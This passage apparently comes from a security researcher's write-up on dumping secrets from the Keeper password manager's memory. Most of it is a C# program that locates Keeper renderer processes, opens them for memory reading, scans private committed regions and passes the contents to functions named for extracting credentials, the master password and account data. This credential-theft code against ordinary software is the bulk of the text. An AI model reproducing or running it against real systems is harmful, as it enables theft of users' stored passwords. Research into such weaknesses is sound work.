 So in theory, one could iterate over memory to find a specific byte pattern, always present at `+0x10` bytes after the start of the MetaMap: `ff 03 (40 | 20) 00` - at least according to the volatility plugin and the Juicing V8 research work. Sadly this byte pattern is seemingly unreliable and produces inaccurate results in the case of Keeper but it is something that could be built upon in future.

So, with no 'refined' means of mapping and parsing the target application's memory I turned to the biggest hammer I could find for this metaphorical nail: <b><i>RegEx</i></b>

## <u>Witty Expression Cirqa 1951</u>

To begin I started by constructing the necessary CSharp code.

```csharp
    public static List<string> stringsList = new List<string>();
    static void Main(string[] args)
    {
        // Iterate over each process id
        foreach (var process in Process.GetProcessesByName("keeperpasswordmanager"))
        {
            // Get process command line string
            string commandline = GetCommandLine(process);
            // Check if it matches known child process client id that stores credentials
            if (commandline.Contains("--renderer-client-id=5") || commandline.Contains("--renderer-client-id=7"))
            {
                Console.WriteLine("->Keeper Target PID Found: {0}", process.Id.ToString());
                Console.WriteLine("->Searching...\n");
                // Get process handle, VM READ and QUERY
                IntPtr processHandle = OpenProcess(0x00000400 | 0x00000010, false, process.Id);
                // Start address
                IntPtr address = new IntPtr(0x10000000000);
                MEMORY_BASIC_INFORMATION memInfo = new MEMORY_BASIC_INFORMATION();
                // Iterate over memory regions
                while (VirtualQueryEx(processHandle, address, out memInfo, (uint)Marshal.SizeOf(memInfo)) != 0)
                {
                    // Check if memory committed & Type is private
                    if (memInfo.State == 0x00001000 && memInfo.Type == 0x20000)
                    {
                        byte[] buffer = new byte[(int)memInfo.RegionSize];
                        // Read region into buffer the size of memory region.
                        if (NtReadVirtualMemory(processHandle, memInfo.BaseAddress, buffer, (uint)memInfo.RegionSize, IntPtr.Zero) == 0x0)
                        {
                            string text = Encoding.ASCII.GetString(buffer);
                            extract_credentials(text);
                            extract_master(text);
                            extract_account(text);
                        }
                    }
                    // Increment to next region
                    address = new IntPtr(memInfo.BaseAddress.ToInt64() + memInfo.RegionSize.ToInt64());
                }
                // Close process handle when finished
                CloseHandle(processHandle);
            }
        }
    }
```
